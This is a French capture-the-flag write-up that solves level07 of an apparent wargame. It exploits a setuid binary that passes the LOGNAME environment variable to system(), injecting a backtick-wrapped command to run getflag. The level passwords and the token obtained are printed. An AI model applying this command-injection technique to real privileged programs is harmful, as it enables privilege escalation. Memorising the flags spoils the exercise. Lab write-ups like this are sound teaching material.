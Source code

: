 # Level07: Exploit variable d'environnement

> login:password -> *`level07:wiok45aaoguiboiki2tuin6ub`*
```
:~$ su level07
Password:wiok45aaoguiboiki2tuin6ub
```
---

```
:~$ pwd
/home/user/level07
```

```
:~$ ls -la
...
-rwsr-sr-x 1 flag07  level07 8805 Mar  5  2016 level07
...
```

Le Home contient un binaire :

```
:~$ ./level07
level07

```

On remarque que le binaire semble afficher son propre nom, mais en utilisant la commande `strings level07`

```
...
getenv
system
LOGNAME
/bin/echo %s
...
```

Si on fait plus attention aux variables d'environnement, on remarque que la variable LOGNAME pourrait nous être utile. Dans un premier temps, essayons de la modifier

```
:~$ export LOGNAME=test
:~$ ./level07
test
```

On constate alors que le binaire affiche la variable LOGNAME. On peux alors essayer de lui faire exécuter la commande `getflag`


```
:~$ export LOGNAME=\`/bin/getflag\`

:~$ ./level07
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```

Le flag nous permet de se connecter au level08
`level08:fiumuikeil55xe9cu4dood66h`